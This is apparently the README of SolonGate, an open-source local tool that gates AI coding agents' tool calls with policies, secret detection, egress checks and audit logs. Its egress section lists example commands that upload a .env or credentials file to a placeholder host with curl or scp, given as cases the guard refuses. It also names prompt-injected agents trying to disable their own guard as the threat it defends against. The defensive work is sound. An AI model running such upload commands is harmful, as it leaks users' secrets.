



<p align="center">
  
</p>

<p align="center">
  <a href="https://github.com/codeyevsky/solongate-oss/actions/workflows/ci.yml"></a>
  <a href="LICENSE"></a>
  <a href="https://go.dev"></a>
  <a href="https://nodejs.org"></a>
  <a href="CODE_OF_CONDUCT.md"></a>
</p>

<p align="center">
  <a href="docs/quickstart.md"><b>Quickstart</b></a> ·
  <a href="docs/README.md"><b>Documentation</b></a> ·
  <a href="docs/policy.md"><b>Policy reference</b></a> ·
  <a href="CONTRIBUTING.md"><b>Contributing</b></a> ·
  <a href="SECURITY.md"><b>Security</b></a>
</p>

---

A policy gate for AI coding agents. It sits in front of every tool call an agent
makes, every shell command, every file read and every write, and decides whether
it runs, against rules you wrote.

Everything is on the machine. The policy is a file, the audit trail is a file,
and nothing leaves: there is no service to sign in to, no account, and no code
left in the guard that can open a socket.

Supported agents: **Claude Code**, **Codex**, **OpenCode**, **Antigravity**.

## The decision path

Five layers, in this order, on every single tool call. Any one of them can
refuse, and a refusal is recorded before the agent is answered.

<p align="center">
  
</p>

## Documentation

| | |
| --- | --- |
| [Install](docs/install.md) | Both install paths, and what each one writes. |
| [Quickstart](docs/quickstart.md) | A first policy, and proof that it is enforced. |
| [Policy reference](docs/policy.md) | Modes, rule fields, constraints, matching semantics. |
| [DLP and egress](docs/dlp.md) | Secret detection, the four modes, the upload check. |
| [Rate limits](docs/rate-limits.md) | Caps per minute, hour and day. |
| [Audit trail](docs/audit.md) | What is recorded, where, and how to read it. |
| [CLI reference](docs/cli.md) | Every command and flag. |
| [Clients](docs/clients.md) | What each agent supports, and what it cannot do. |
| [MCP proxy](docs/mcp-proxy.md) | The same policy in front of an MCP server. |
| [Architecture](docs/architecture.md) | The decision path, and the on disk layout. |
| [Troubleshooting](docs/troubleshooting.md) | When nothing is blocked, and when everything is. |

For contributors: [CONTRIBUTING.md](CONTRIBUTING.md),
[ENGINEERING.md](ENGINEERING.md) for the reasoning behind the design, and
[TESTING.md](TESTING.md) for the manual run sheet.

## What is here

| | |
| --- | --- |
| `packages/guard-go` | The guard, in Go. Runs on every tool call and decides. |
| `packages/proxy` | The CLI, the TUI and the hooks (npm `@solongate/proxy`, command `solongate`). |
| `packages/proxy-go` | The same CLI in Go, which is what ships as the binary. |
| `packages/sgpolicy` | The Go policy engine: JSON rules compiled to Rego, evaluated in process. |
| `packages/sgshared` | Shapes more than one program has to agree about. |

Two implementations of everything, deliberately. Which one decides a call
depends only on whether a machine has the Go binary, so they have to agree, and
the conformance suite runs against both to make sure they do.

<p align="center">
  
</p>

## Getting started

```bash
npm i -g @solongate/proxy
solongate                    # the dataroom; install the guard from Settings
```

Start a new terminal afterwards. Hooks load when a session starts, so
already open terminals are not guarded yet.

### From this checkout

The command above needs the published package. To run what is in this tree:

```bash
git clone https://github.com/codeyevsky/solongate-oss.git
cd solongate-oss
./install.sh
```

It checks the toolchain, installs the workspace, builds the TypeScript and this
host's Go binaries, and installs the guard, the hooks and the client
registrations. Then `solongate` is a command.

Open a new terminal afterwards, for the same reason as above.

To update later, from anywhere:

```bash
solongate update
```

It pulls the newest source into the checkout it was installed from, rebuilds and
reinstalls. The install writes that path down, so there is no directory to
remember and nothing to `git pull` by hand.

**It will not run from an agent.** Every command in the CLI changes a security
posture, so the CLI requires a terminal on both stdin and stdout, and the guard
refuses a tool call that invokes it. Run `./install.sh` yourself: the build steps
work from anywhere, the install step is refused without a terminal and says so.

[docs/install.md](docs/install.md) has the step by step version, including the
manual build and what each step writes.

## Write a policy

`~/.solongate/policy.json`:

```json
{
  "mode": "denylist",
  "rules": [
    {
      "id": "no-force-push",
      "description": "Rewriting shared history is not an agent's decision",
      "effect": "DENY",
      "priority": 10,
      "enabled": true,
      "toolPattern": "*",
      "commandConstraints": { "denied": ["*push --force*", "*push -f*"] }
    }
  ]
}
```

The next tool call is decided against it: `git push --force` and `git push -f`
are refused from that point, `git push` is not.
`solongate policy deny local --command '*push --force*'` writes the same thing
without the JSON.

**`denylist` allows what no rule forbids. `whitelist` refuses what no ALLOW rule
matches.** A DENY always wins over an ALLOW, whatever the priorities say. The
priority orders rules of the same effect.

A `policy.json` beside your working directory is read when the machine has no
file of its own. It may add **rules and nothing else**: it lives in a repository the
agent can write to, so `selfProtect` and `security` are ignored there.

Every field, and what each constraint actually matches, is in
[docs/policy.md](docs/policy.md).

## The other layers

They live in the same file. Wrap the policy and add `security`:

```json
{
  "policy": { "mode": "denylist", "rules": [] },
  "security": {
    "rateLimit": { "perMinute": 60, "perHour": 900, "perDay": 5000 },
    "dlpBlock": { "patterns": ["AWS access key", "Anthropic key"], "custom": [] },
    "localLogs": { "path": "/where/the/audit/trail/goes" }
  }
}
```

- **Rate limiting.** A cap per minute, hour or day. `rateLimitObserve` instead of
  `rateLimit` counts without blocking. See [docs/rate-limits.md](docs/rate-limits.md).
- **DLP.** When a call carries a secret, refuse it. `dlpBlock` refuses and masks,
  `dlpRedact` masks without refusing, `dlpObserve` records and changes nothing.
  70 built in patterns, and `custom` takes globs of your own.
  `solongate dlp` lists the names. See [docs/dlp.md](docs/dlp.md).
- **Egress.** A transfer command that would upload a local file holding a secret
  is refused, which is the case pattern matching alone cannot catch:
  `curl --data-binary @.env <url>` reads the file itself, so the secret never
  appears in the arguments or the output. It reads the file the command names,
  including a positional one (`scp .env host:/tmp`) and one piped in
  (`cat .env | curl -d @- <url>`). On with `dlpBlock`.
- **The prompt.** The model sees your typed prompt and whatever the client sweeps
  into context, and no tool call hook is in that path. A shell shim routes
  `claude` through a local proxy that masks the request body on its way out. The
  response comes back untouched. Installed with the guard, using the same
  patterns, `custom` included.
- **Tamper protection.** The guard's own state is unreachable from a tool call,
  by every route, and cannot be switched off by a policy in a repository. On by
  default. `"selfProtect": false` beside `policy` turns it off.

## Where the record goes

`~/.solongate/local-logs/solongate-audit.jsonl`, owner only, one JSON object per
line. The guard writes a denial before it answers the agent. The post tool hook
writes the rest.

Recording is not optional, because there is nowhere else for an entry to go, so
`localLogs.path` chooses the folder and nothing more. `solongate audit` reads the
file, and `solongate audit whitelist <id>` turns a line of it into a rule.

What a turn cost goes beside it, in `token-usage-<date>.jsonl`: one line per
turn, with the model and the turn id, read from whatever each client already
records. Nothing counts tokens for you and nothing is sent anywhere.
[docs/audit.md](docs/audit.md) has the field list.

## The CLI

```
solongate                    the dataroom (policies, audit, settings)
solongate policy             list, create and edit the policy
solongate ratelimit          show and edit the rate limit
solongate dlp                show and edit secret detection
solongate audit              browse the audit trail
solongate watch              live tail tool calls
solongate trace              what the guard saw in this directory
solongate stats              what has been recorded
solongate doctor             health check: policy file, guard, local logs
solongate repair             restore the guard, hooks and settings files
solongate update             pull the newest version and reinstall it
```

Every one of these reads or changes a security posture, so they refuse to run
without an interactive terminal, and the guard refuses a tool call that invokes
them. A prompt injected agent must not be able to switch off the thing watching
it, and there is no environment variable that exempts anything from that check.

Full syntax: [docs/cli.md](docs/cli.md).

## The MCP proxy

`solongate -- <upstream command>` puts the same policy in front of an MCP
server's tool calls, for an agent that speaks MCP rather than running hooks. It
decides with the same evaluator the guard uses, so a policy means one thing in
both places.

**Almost all the layers are there.** This path enforces the policy rules, the
rate limit and DLP, with the same scanner and the same pattern list the hooks
use, so a secret split across string literals does not walk past it either.

Egress is the exception, and for a reason rather than an omission: that check
reads the files a transfer command would upload, resolving them against the
**agent's** working directory. A proxy in front of a tool server has no such
directory, because the paths in a call belong to whatever machine the upstream
runs on, so reading them here would read the wrong machine's files. The proxy
prints which layers are in force every time it starts, and says this plainly when
your policy configures egress, because a difference you cannot see is the kind
that gets found the expensive way.

[docs/mcp-proxy.md](docs/mcp-proxy.md) is the rest.

## Developing

Go 1.25 and Node 20+.

```bash
pnpm install
pnpm build                    # every package, the way it ships
pnpm test                     # the conformance suite

# and the Go side, module by module
for m in guard-go proxy-go sgpolicy sgshared; do
  (cd packages/$m && gofmt -l . && go vet ./... && go test -count=1 ./...)
done
```

`-count=1` is not a habit, it is the fix for something that happened: Go serves a
cached PASS for a test whose subject was deleted elsewhere in the repo, and one
sat green that way for a while.

**The conformance suite is the contract.** It runs the guard as a subprocess,
feeds it a client payload, and asserts on the exit code, the files touched and
what a stub server does NOT receive, without importing any implementation's
internals.

```bash
cd packages/proxy
pnpm build                    # the suite imports dist/, and drives the bundled hook

node test/run-all.mjs                                   # the Node hook
SG_HOOK=$PWD/../guard-go/solongate-guard \
  node test/run-all.mjs                                 # and the Go binary
```

Both, every time. The two implementations are meant to be indistinguishable, and
every divergence found so far was found by running the same suite against each:
the tamper patterns disagreeing about `*`, the DLP list running 14 patterns
against 70, an ALLOW beating a DENY in the Rego chain, and a `curl -d @creds.env`
upload that one blocked and the other allowed.

A change to the guard is correct exactly when this passes unchanged, against
both. Every case in it exists because the behaviour it pins was once wrong, and
the comments say which.

[CONTRIBUTING.md](CONTRIBUTING.md) is how to send a change.
[ENGINEERING.md](ENGINEERING.md) is the rest of the reasoning: why Go, where the
guard stands, and the failure modes that cost somebody a day.

## Project scope

This repository is the whole of SolonGate as a local tool: the guard, the policy
engine, the CLI and the hooks, under [MIT](LICENSE). It has no account, no
licence key, no paid tier gate and no telemetry. Nothing in it phones home, and
`solongate doctor` will tell you so.

What it deliberately does not contain, because none of it exists here any more:

- a server, an API or a hosted control plane
- fleet or organisation wide policy distribution
- a database, a schema or an identity provider integration
- any code path that sends an audit entry, a token count or a policy off the
  machine

Earlier versions had a cloud half. It was removed rather than disabled, and the
commit history records what went with it.

## Community

- **Questions and help**: [SUPPORT.md](SUPPORT.md)
- **Reporting a vulnerability**: [SECURITY.md](SECURITY.md). Please do not open a
  public issue for a guard bypass.
- **How the project is run**: [GOVERNANCE.md](GOVERNANCE.md)
- **Behaviour**: [CODE_OF_CONDUCT.md](CODE_OF_CONDUCT.md)
- **What changed**: [CHANGELOG.md](CHANGELOG.md)

## Licence

MIT. See [LICENSE](LICENSE).
